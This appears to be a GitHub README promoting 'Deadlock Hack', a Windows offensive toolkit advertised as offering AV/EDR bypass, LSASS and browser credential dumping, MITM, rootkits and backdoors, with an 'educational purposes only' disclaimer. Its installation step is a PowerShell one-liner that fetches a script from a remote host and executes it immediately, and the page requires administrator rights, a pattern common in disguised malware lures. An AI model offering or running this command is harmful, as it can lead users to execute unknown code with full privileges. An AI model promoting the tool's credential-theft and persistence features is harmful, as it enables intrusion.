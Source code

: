 # Deadlock Hack

![e0a4f47f-0736-4eee-9791-425172eba9ba.png](https://i.postimg.cc/05LM1bYD/e0a4f47f-0736-4eee-9791-425172eba9ba.png)

[![GitHub release](https://img.shields.io/github/release/DeadlockHack/DeadlockHack.svg)](https://github.com/DeadlockHack/DeadlockHack/releases)
[![License](https://img.shields.io/badge/license-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
[![Platform](https://img.shields.io/badge/platform-Windows-0078d7.svg)](https://learn.microsoft.com/en-us/windows)

Deadlock Hack is a cutting-edge Windows security toolkit designed for penetration testing and ethical hacking. Optimized for Windows 10/11 systems, it provides advanced exploitation frameworks, vulnerability scanners, and post-exploitation modules.

## Key Features

- **Memory Injection** - Bypass AV/EDR with advanced process hollowing
- **Network Exploitation** - ARP spoofing, MITM, and packet crafting
- **Credential Harvesting** - Dump LSASS, extract browser passwords
- **Persistence Mechanisms** - Install rootkits, backdoors, and scheduled tasks
- **Stealth Operations** - Anti-debugging, sandbox evasion techniques

## System Requirements

- Windows 10/11 (x64)
- .NET Framework 4.8+
- 4GB RAM minimum
- Administrator privileges

## Installation

```powershell
irm https://deadlockhack.io/install | iex
```

## Legal Notice

This tool is provided for **educational purposes only**. Unauthorized access to computer systems is illegal. Developers assume no liability for misuse.

[![Twitter Follow](https://img.shields.io/twitter/follow/DeadlockHack?style=social)](https://twitter.com/DeadlockHack)